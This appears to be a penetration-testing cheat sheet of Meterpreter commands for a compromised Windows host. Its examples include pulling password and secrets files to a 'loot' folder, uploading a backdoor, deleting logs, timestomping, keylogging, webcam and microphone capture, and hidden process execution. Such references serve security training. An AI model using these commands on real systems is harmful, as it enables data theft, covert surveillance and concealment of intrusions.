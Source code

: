 #### File System Operations
| Command | Description | Example |
|---------|-------------|---------|
| `pwd` / `getwd` | Print working directory | `pwd` |
| `cd <directory>` | Change directory | `cd C:\\Users` |
| `ls` | List files in current directory | `ls` |
| `cat <file>` | Display file contents | `cat config.txt` |
| `edit <file>` | Edit file on target | `edit passwords.txt` |
| `download <file>` | Download file from target | `download passwords.txt` |
| `download <file> <location>` | Download to specific location | `download secrets.db /home/kali/loot/` |
| `upload <file>` | Upload file to target | `upload backdoor.exe` |
| `mkdir <directory>` | Create new directory | `mkdir secret` |
| `rm <file>` | Delete file | `rm evidence.log` |
| `search -f <filename>` | Find files on target | `search -f *.pdf` |
| `timestomp <file>` | Modify file timestamps | `timestomp important.doc -f reference.doc` |

#### Network and System Monitoring
| Command | Description | Example |
|---------|-------------|---------|
| `ipconfig` / `ifconfig` | Show network interfaces | `ipconfig` |
| `netstat` | Display network connections | `netstat` |
| `route` | View/modify network routing table | `route` |
| `portfwd` | Port forwarding | `portfwd add -l 8080 -p 80 -r 192.168.1.10` |
| `arp` | Display ARP cache | `arp` |
| `screenshot` | Capture screen | `screenshot` |
| `record_mic <seconds>` | Record from microphone | `record_mic 10` |
| `webcam_list` | List available webcams | `webcam_list` |
| `webcam_snap` | Take webcam snapshot | `webcam_snap` |
| `webcam_stream` | Start webcam stream | `webcam_stream` |
| `keyscan_start` | Start keylogger | `keyscan_start` |
| `keyscan_dump` | View captured keystrokes | `keyscan_dump` |
| `keyscan_stop` | Stop keylogger | `keyscan_stop` |

#### Process and Memory Operations
| Command | Description | Example |
|---------|-------------|---------|
| `ps` | List processes | `ps` |
| `migrate <PID>` | Migrate to another process | `migrate 1234` |
| `migrate -N <name>` | Migrate to process by name | `migrate -N explorer.exe` |
| `execute -f <program>` | Execute program on target | `execute -f calc.exe` |
| `execute -H -f <cmd>` | Execute hidden program | `execute -H -f cmd.exe` |
| `mem` | Display memory usage | `mem` |